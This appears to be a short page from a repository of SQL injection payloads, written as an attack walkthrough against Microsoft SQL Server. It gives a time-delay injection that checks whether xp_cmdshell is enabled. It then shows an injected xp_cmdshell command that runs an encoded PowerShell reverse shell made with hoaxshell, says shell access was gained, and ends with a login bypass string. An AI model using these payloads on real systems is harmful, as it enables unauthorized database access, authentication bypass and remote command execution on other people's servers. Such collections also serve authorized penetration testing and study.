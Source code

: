 # SQL Payloads

## Payload to Check for xp_cmdshell:
```sql
'; IF EXISTS (SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell' AND value_in_use = 1) WAITFOR DELAY '00:00:05' -- //
```

A five-second delay in the response confirmed its activation. Next, I created a PowerShell payload using hoaxshell:

Hoax Reverse Shell Payload:
```sh
'; EXEC xp_cmdshell 'powershell -e eQBvAHUAcgAtAHAAYQB5AGwAbwBhAGQA...'; -- //
```

Execute it and successfully gain shell access, as you can see in the screenshot.

![img](https://media.licdn.com/dms/image/D4E22AQEMx7xvCP8YLA/feedshare-shrink_1280/0/1714023914371?e=1726099200&v=beta&t=j-GJQ0LxllbbHyNGD2dQGqsx_NFpRnCP_mQxo5z5GCw)

## Auth Bypass
```sql
admin')&password=')+or+30>10/
```
![img](/SQL-Payloads/assets/sqli_auth_bypass.jpg)

